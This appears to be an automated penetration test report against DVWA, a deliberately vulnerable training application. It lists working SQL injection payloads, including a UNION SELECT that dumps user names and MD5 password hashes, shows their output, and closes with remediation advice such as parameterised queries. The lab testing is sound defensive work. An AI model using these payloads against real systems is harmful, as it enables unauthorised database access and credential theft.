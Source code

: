 # Automated Web Pentest Report

**Scan Date:** 2025-06-12T08:35:19.667288Z  
**Target:** DVWA

## Test Environment

- **Server OS:** Kali GNU/Linux Rolling
- **Python Version:** 3.13.3
- **Scan Date:** 2025-06-12 08:35:19 UTC
- **SQLmap Version:** 1.9.4#stable
- **Target App:** DVWA (Damn Vulnerable Web Application)
- **Version:** 1.10 *Development*
- **Security Level:** low
- **Web Server:** Apache 2.4
- **Database:** MySQL 8
- **Language:** PHP 8.1
- **Tools Used:** Python requests, BeautifulSoup4, SQLmap, Burp Suite (manual verify)

---
## Methodology & Tools

- Automated Python script loads payloads from file, sends HTTP requests, extracts evidence with BeautifulSoup4.
- Auto-classifies results, exports as PDF/Markdown/JSON.
- SQLmap integration for advanced SQLi detection.
- Ready for CI/CD: can run in GitHub Actions/Jenkins.

---
## Executive Summary
- Total vulnerabilities tested: 4  
- Successful exploits: 3  
- Risk Level: **Critical**


---
## Test Cases Table

| # | Payload | Status | Severity |
|---|---------|--------|----------|
| 1 | `' OR '1'='1` | Success | Critical |
| 2 | `' OR 1=1 #` | Success | Critical |
| 3 | `' union select user, password from users#` | Success | Critical |
| 4 | `addadasddad` | Fail | Low |

---
## Evidence Details

**Severity:** `Critical`
### [1] Payload: `' OR '1'='1`
```
ID: ' OR '1'='1
First name: admin
Surname: admin

ID: ' OR '1'='1
First name: Gordon
Surname: Brown

ID: ' OR '1'='1
First name: Hack
Surname: Me

ID: ' OR '1'='1
First name: Pablo
Surname: Picasso

ID: ' OR '1'='1
First name: Bob
Surname: Smith
```

---
**Severity:** `Critical`
### [2] Payload: `' OR 1=1 #`
```
ID: ' OR 1=1 #
First name: admin
Surname: admin

ID: ' OR 1=1 #
First name: Gordon
Surname: Brown

ID: ' OR 1=1 #
First name: Hack
Surname: Me

ID: ' OR 1=1 #
First name: Pablo
Surname: Picasso

ID: ' OR 1=1 #
First name: Bob
Surname: Smith
```

---
**Severity:** `Critical`
### [3] Payload: `' union select user, password from users#`
```
ID: ' union select user, password from users#
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: ' union select user, password from users#
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

ID: ' union select user, password from users#
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: ' union select user, password from users#
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: ' union select user, password from users#
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

---
**Severity:** `Low`
### [4] Payload: `addadasddad`
```
User ID:
```

---
## Extracted Users

| # | Username | Password/Hash |
|---|----------|---------------|
| 1 | admin | 5f4dcc3b5aa765d61d8327deb882cf99 |
| 2 | gordonb | e99a18c428cb38d5f260853678922e03 |
| 3 | 1337 | 8d3533d75ae2c3966d7e0d4fcc69216b |
| 4 | pablo | 0d107d09f5bbe40cade3de5c71e9e9b7 |
| 5 | smithy | 5f4dcc3b5aa765d61d8327deb882cf99 |

---
## Recommendations
- Use prepared statements (parameterized queries) for all database access.
- Enable a Web Application Firewall (e.g., ModSecurity + CRS) in production.
- Build a code review checklist for input validation and output encoding.
- Patch DVWA and all dependencies regularly.
- Integrate automated security testing (e.g., SonarQube, OWASP ZAP) into CI/CD.
- Regularly update payload signatures and review recent CVE advisories.

---
## References
- OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
- PayloadAllTheThings SQLi: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
- DVWA GitHub: https://github.com/digininja/DVWA
- SQLmap: http://sqlmap.org/
- OWASP Testing Guide: https://owasp.org/www-project-web-security-testing-guide/

---
